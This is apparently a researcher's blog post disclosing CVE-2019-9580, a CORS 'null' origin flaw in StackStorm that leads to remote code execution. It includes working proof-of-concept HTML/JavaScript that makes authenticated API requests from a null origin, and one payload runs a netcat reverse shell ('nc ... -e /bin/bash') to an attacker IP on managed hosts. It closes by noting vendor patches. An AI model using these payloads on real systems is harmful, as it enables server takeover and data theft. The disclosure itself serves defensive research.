 ```yaml
---
layout: post
title: StackStorm - From Originull to RCE - CVE-2019-9580
---
```


<div style="text-align:center"><img src="https://www.thefastmode.com/media/k2/items/src/3cc8012eca57577e33709ae3cf2556ae.jpg"></div><br>StackStorm (aka "IFTTT for Ops") is event-driven automation for auto-remediation, security responses, troubleshooting, deployments, and more.
In this blogpost I will describe how can you cause RCE on targeted servers which only requires an authenticated user browse to malicious webpage.


So first, lets understand what is StackStorm, StackStorm is a really popular (3K stars on github) devops event-driven automation tool, allows devops to configure actions, workflows, and scheduled tasks, in order to perform some operations on large-scale servers.

Actions will run on behalf remote servers managed by StackStorm agent. Those actions can be anything, from HTTP request to an arbitrary command as you can see in the following image:
<div style="text-align:center"><img src="https://lh6.googleusercontent.com/O8O0lXaIddzBUus6qqf2jnqwCqma72q7-5hbM9ZHv0n2RtzvOE7aRO2Y4X0T7sT0UKZZsc2vGR_uDbohcJUyVEtfk7VV7Wvtr2fWDekSA-tGspa_ZM93w1ge3kGO5GMKMk0LofxF"></div>

Due to the fact that StackStorm agent run those actions on remote servers it will be “blessed” by quite high-privileges. This fact really motivated me to find flaw in it.

I was managed to see this request:
<div style="text-align:center"><img src="https://lh3.googleusercontent.com/gnw0KB9Ii4BH-nR2zIKzHAVEMnJYy68bjO_3rD6uHW_RbZaJACFUQ8m-b_i_pyb3w9p9Hq1uw14VySYCPr31KjE6jazfkf2TzaSVSEa7BrLLWw3zPqvTn9Pzf4_VhGPVh_pMZQBG"></div>

As we can see the “Access-Control-Allow-Origin” header returning in each request to StackStorm REST API, even when request not includes the origin header, quite weird but anyway might make sense…
Then I started to send a malformed Origin header and I realized that the server cant handle it properly, and returning the header “Access-Control-Allow-Origin: null”:
<div style="text-align:center"><img src="https://lh5.googleusercontent.com/iROyOQlB1lRDbcvCOis4P8PkcJb3kcSG8PJCpyiAHjubxJ7tG9JIVu-nS9Vtd3Wo6bZoiQubqBTOP4FS5F7qWveiDXUqvtDkG_2uq-vNyPSITx-nQtB9GdwLbaO-iQtIQfWUYB2D"></div>


Right away I knew that there is something interstring in here, and reminded the [Originull attack discovered by Ysrael Gurt](https://bugsec.com/wp-content/uploads/2016/12/Blog-Post-BugSec-Cynet-Facebook-Originull.pdf)
This is the first time I encountered that on the wild, I was really curious about why is this happening in first place?
why servers returning “Access-Control-Allow-Origin: null” header at all? they can just not return this header at all.
I managed to read a bit the [The Web Origin Concept RFC](https://tools.ietf.org/html/rfc6454) and find page 11 quite interesting related to Originull:
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/MSAecvSRa9BHTCV32M526_aisMdNz2ApU_e5xoZRbf7bv9vkXQTP0rLJlRi3wzEIMg8ZQKj142Mk-v2i1wNAkI_t4hm4xDMxo9rRpLXG8qHjXQJrrgxKFzQF_Lz_tmdV8ym85pUs"></div>


To simplify, the RFC defines, in case the server got a malformed origin which cannot be serialized, set the string “null” as the Origin header.
Now we can understand what is the root cause for all this, that's makes me laugh a bit because the RFC defines one thing, but [Mozilla best practices](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin) saying to avoid using it (make sense anyway).

After we understand why is this happening, let’s understand how can we exploit this flaw?
So now the origin “null” have the a “full privileges” to StackStorm REST API, which means, that this origin can fetch requests and read responses on behalf any user that will browse to this “null” origin.
How can I get null origin? Via data/file scheme as shown in the PDF mentioned above.
You can run this in your browse and see that you get empty(document.domain=null) alert message:
```javascript
data:text/html;,<script>alert(document.domain)</script>
```
At the PDF document, they used a meta tag in order to redirect the user to browse this malicious data URL:
```bash
<meta http-equiv="refresh" content="0;URL='data:text/html;,<script>alert(document.domain)</script>'" />  
```

I tried to use the same technique in order have a popup message reading data from StackStorm REST API but I got this message:
<div style="text-align:center"><img src="https://lh6.googleusercontent.com/uxhmHpvw8aMpa9kaVcD8QFj9a6wDgaRXO3VAQRhuvM0ZfEcH1LCEBfSUvxmW0dD7u0_YPYzc5-Yl4jEAt0vKRiNWQQfpkIlszclJBDnHVyeME2kD4E3X4y7s3Rd8T55OYoLucEF7"></div>


Crap! I realized that chrome and firefox disabled any data scheme redirections.
I was needed to get another creative way to redirect users to execute this malicious script on null origin context.
Tried to manipulate redirections responses with data URL schemes on Location header but it failed.
Finally I used “javascript:” scheme, which allows me to execute JS code which runs on the same context as data and file schemes.
So by the javascript scheme I was managed to make a full working PoC as shown below:
```html
<script>	document.location="javascript:fetch('https://172.18.0.6/api/v1/executions',{credentials: 'include'}).then((res)=>{console.log(res.json().then((a) => {console.log(a)}));})"
</script>
```
We can see the REST API response object printed to the console and can be leak to anywhere:
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/e5tZ0o6HXlE4PCu9Ru_EaXQh_7ThnP5BEmGioidAKZqxS6pgW391Ykfd8gt022rE3aNAZeWhMVqgyFlDFg7WldynKB1Ys7R5aNS5qv0G0SqIdKTkzrg4O4JQA9Gx3Yrjx4KaadPp"></div>

So actually, we have to ability to read/update/create actions and workflows, get internal IPs and execute command on each machine which is accessible by StackStorm agent.

It is possible to perform code execution via core.remote action:
```html
<script>
		let jsonBody = {"action":"core.remote","parameters":{"cmd":"nc 192.168.100.113 4444 -e /bin/bash","hosts":"10.0.0.10"},"context":{"trace_context":{}}}
		document.location="javascript:fetch('https://172.18.0.6/api/v1/executions',{credentials: 'include', method: 'post', body: JSON.stringify(jsonBody),headers: {'Content-Type': 'application/json'}}).then((res)=>{console.log(res.json().then((a) => {console.log(a)}));})"
</script>

```
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/N_RVrqFZcfJcZ3AK9DyZnLkAzbMTtdk9A6MTEsiuMIHfik4RADjEZAH3Yt4gB6xIRU6E5gDOmwuXkuK-m4x0kybVeKrrQ6DG23mvF5fJyT7DGFvSNBLidEBsuheYxnmkA8LR2LZ5"></div>

So I was sure I done, but then I tried to run it from a web server, and got the following error message:
<div style="text-align:center"><img src="https://lh5.googleusercontent.com/wyjtRTeOMqk6AtCZ8AWIR8uPXet9us9iRP7S2TeXp1ACU9AGQ_Z2hOlM3r9yFec8tbhgMLWkep9QcNV3JcHrcKnvKMwqHh2CSOmHzlu8V3tY9sSD7-WO8FOhIwQQYgAoODFPDWrY"></div>

I was like, not again!!! The browser actually saves the origin context even if we use javascript, so it was only exploitable via sending a file to the user and make him open it.

I was frustrated and motivated at the same time, got help from my talented colleague Chen Gur Arie, together we managed to bypass this restriction as well, and we got Origin null context from a page loaded in a domain (btw, Flash can do that as well)
I don't want to elaborate about how we did it, because we still trying to figure out what are the implications of it.


Now all an attacker needs is to send a malicious link to a victim which is authenticated to StackStorm Web UI, thus, allow the attacker take over any server accessible by StackStorm agent as you can see at [the PoC video](https://www.youtube.com/watch?v=KnvWCg2Q7k4)

I contacted with StackStorm team and it is important to note that they did great job and was really cooperative, released the patch a day or two after they were informed (versions 2.9.3 and 2.10.3 are not vulenrable) and published [a blogpost](https://stackstorm.com/2019/03/08/stackstorm-2-9-3-2-10-3/) about the vulenrability.
